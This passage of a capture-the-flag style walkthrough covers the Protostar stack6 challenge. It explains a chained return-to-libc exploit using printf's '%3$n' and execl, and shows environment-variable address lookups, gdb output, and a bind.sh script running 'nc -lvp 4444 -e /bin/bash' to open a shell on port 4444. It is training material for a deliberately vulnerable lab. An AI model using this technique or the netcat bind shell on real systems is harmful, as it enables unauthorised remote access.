 ```lang-bash line-numbers 
--------------------------------------------------------------------------------------------------------------------
| buffer | overwritten EBP | libc function address | return address for libc function | arguments to libc function |
--------------------------------------------------------------------------------------------------------------------
```

We can concatenate different calls by replacing the "return address for libc function" with a second function address. In that case the arguments for that second function should be 4 bytes above the address of the second function.

Ok, enough theory, we will be using two concatenated calls. The first one will be **prinntf** and we will use it to write a **0** in the stack, the one we need for our second call to **execl(“/bin/bash”, “/bin/bash”, 0)**

So, the payload should look like this:

```lang-bash line-numbers 
----------------------------------------------------------------------
| buffer | BBBB | &printf | &execl | &"%3$n" | &"nc" | &"nc" | CCCC |
----------------------------------------------------------------------
```

Where BBBB and CCCC will be random values. BBBB will overwrite EBP and CCCC will be overwritten by the **printf("%3$n")**

We need to place to strings in memory. we can use our buffer for that or simply put them in environment variables:

```lang-bash line-numbers 
user@protostar:~$ export PRINTF="%3\$n"
user@protostar:~$ export NC="bind.sh"
user@protostar:~$ ./envaddr NC /opt/protostar/bin/stack6
NC will be at 0xbffff9cf
user@protostar:~$ ./envaddr PRINTF /opt/protostar/bin/stack6
PRINTF will be at 0xbffff983
```

I will be executing a nc daemon sending a shell and listening on port 4444:

```lang-bash line-numbers 
user@protostar:~$ cat bind.sh
nc -lvp 4444 -e /bin/bash
user@protostar:~$ chmod +x bind.sh
user@protostar:~$ export PATH=/home/user:$PATH
```

```lang-bash line-numbers 
user@protostar:~$ gdb -q /opt/protostar/bin/stack6
Reading symbols from /opt/protostar/bin/stack6...done.
(gdb) b main
Breakpoint 1 at 0x8048500: file stack6/stack6.c, line 27.
(gdb) run
Starting program: /opt/protostar/bin/stack6

Breakpoint 1, main (argc=1, argv=0xbffff6f4) at stack6/stack6.c:27

(gdb) print execl
$1 = {<text variable, no debug info>} 0xb7f2e460 <*__GI_execl>
(gdb) print printf
$2 = {<text variable, no debug info>} 0xb7eddf90 <__printf>
```

